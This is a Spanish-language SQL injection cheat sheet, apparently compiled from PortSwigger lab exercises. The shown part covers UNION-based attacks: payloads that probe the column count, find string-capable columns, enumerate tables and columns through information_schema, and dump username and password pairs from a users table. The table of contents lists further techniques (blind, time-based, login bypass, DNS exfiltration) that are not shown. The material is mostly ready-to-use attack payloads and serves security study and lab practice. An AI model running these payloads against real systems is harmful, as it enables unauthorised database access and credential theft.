 # SQL injection cheatsheet

## Table of contents

- [SQL injection cheatsheet](#sql-injection-cheatsheet)
  - [UNION ATTACK](#union-attack)
  - [BLIND SQLi](#blind-sqli)
  - [TIME BASED](#time-based)
  - [LOGIN BYPASS](#login-bypass)
  - [CHEATSHEET PORTSWIGGER](#cheatsheet-portswigger)
    - [CONCATENACION](#concatenacion)
    - [SUBSTRING](#substring)
    - [COMENTARIOS](#comentarios)
    - [DATABASE VERSION](#database-version)
    - [DATABASE CONTENT](#database-content)
    - [CONDITIONAL ERROR](#conditional-error)
    - [MULTIPLES QUERYS](#multiples-querys)
    - [TIME DELAYS](#time-delays)
    - [CONDICIONAL TIME DELAYS](#condicional-time-delays)
    - [DNS LOOKUP](#dns-lookup)
    - [DNS LOOKUP CON EXFILTRACION DE DATOS](#dns-lookup-con-exfiltracion-de-datos)

## INTRO

En base a todos los laboratorios de SQL injection se crea esta hoja de trucos:

- Prueba de todo y para todas las DBMS a la hora de testear un SQLi.
- URL encodea caracteres especiales.
- Oracle siempre pide una tabla para sus consultas, por suerte tiene una tabla por defecto llamada **dual**.

## UNION ATTACK

```sql

#determinar cantidad de columnas
category='+UNION+SELECT+NULL--
category='+UNION+SELECT+NULL,NULL--
category='+UNION+SELECT+NULL,NULL,NULL--
category='+UNION+SELECT+'a','a'+FROM+dual-- #oracle
...

#determinar si alguna columna admite cadenas
category='+UNION+SELECT+'a',NULL,NULL--
category='+UNION+SELECT+NULL,'a',NULL--
category='+UNION+SELECT+NULL,NULL,'a'--
...

#obtener el nombre de las tablas (varia segun DBMS)
category='+UNION+SELECT+NULL,table_name+FROM+information_schema.tables-- -

#obtener el nombre de las columnas (varia segun DBMS)
category='+UNION+SELECT+NULL,column_name+FROM+information_schema.columns+where+table_name='sers_qwxkvs'- -

#obtener informacion
category='+UNION+SELECT+username,password+from+users--
category='+UNION+SELECT+NULL,concat(username,':',password)+from+users--
category='+UNION+SELECT+NULL,username||'~'||password+from+users--

```
